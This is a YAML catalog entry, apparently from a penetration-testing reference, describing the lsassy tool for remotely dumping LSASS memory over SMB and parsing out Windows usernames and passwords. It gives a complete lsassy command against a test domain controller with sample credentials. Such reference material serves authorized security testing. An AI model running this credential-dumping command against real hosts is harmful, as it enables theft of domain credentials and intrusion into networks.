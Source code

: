 ```yaml
---
title: |
  Extract Credentials Remotely (Parsing only)
description: |
  Python tool to remotely extract credentials on a set of hosts. This tool uses impacket project to remotely read necessary bytes in lsass dump and pypykatz to extract credentials.

command: |
  lsassy –dumppath C$/Windows/Temp/lsass.dmp test.local/testuser:Welkom01!@dc01.test.local
items:
  - Username
  - Password
services:
  - SMB
OS:
  - Linux
attack_types:
  - Enumeration
references:
  - https://github.com/Hackndo/lsassy
  - https://en.hackndo.com/remote-lsass-dump-passwords/
---
```

